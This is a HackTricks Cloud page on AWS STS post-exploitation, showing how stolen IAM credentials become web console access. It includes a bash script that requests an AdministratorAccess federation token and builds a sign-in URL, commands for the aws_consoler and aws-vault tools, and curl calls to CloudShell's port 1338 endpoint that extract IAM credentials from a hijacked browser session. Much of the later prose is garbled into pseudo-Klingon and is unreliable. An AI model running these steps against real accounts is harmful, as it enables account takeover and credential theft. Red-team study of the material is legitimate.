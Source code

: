 # AWS - STS Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## STS

For more information:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### From IAM Creds to Console

If you have managed to obtain some IAM credentials you might be interested on **accessing the web console** using the following tools.\
Note that the the user/role must have the permission **`sts:GetFederationToken`**.

#### Custom script

The following script will use the default profile and a default AWS location (not gov and not cn) to give you a signed URL you can use to login inside the web console:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo $resp | jq -r '.SigninToken')

# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

[https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler) **ghItlh** **web console link** **generate**.
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
QaStaHvIS IAM lo'laH `sts:GetFederationToken` permission, 'ej, assume role vItlhutlh.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) Hoch 'e' vItlhutlh 'ej vItlhutlh AWS credentials 'ej vItlhutlh 'e' vItlhutlh.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
**aws-vault**-vaj vItlhutlh **browser console session**.
{% endhint %}

#### vIghro' to'wI'pu' to'wI'pu' vIghro'pu'

[**Originally discovered in this post**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), vaj vIghro'pu' web console (cookies vItlhutlh 'ej .aws folder vItlhutlhbe'chugh), 'ej vaj vIghro'pu' **CloudShell** vItlhutlhbe'chugh, vaj vIghro'pu' **IAM token credentials** vItlhutlhbe'chugh.

CloudShell **undocumented endpoint on port 1338** vItlhutlhbe'. vaj vIghro'pu' victim cookies browser vItlhutlh, CloudShell vItlhutlhbe'chugh, vaj vItlhutlhbe'chugh **IAM credentials** vItlhutlhbe'chugh.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlhutlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
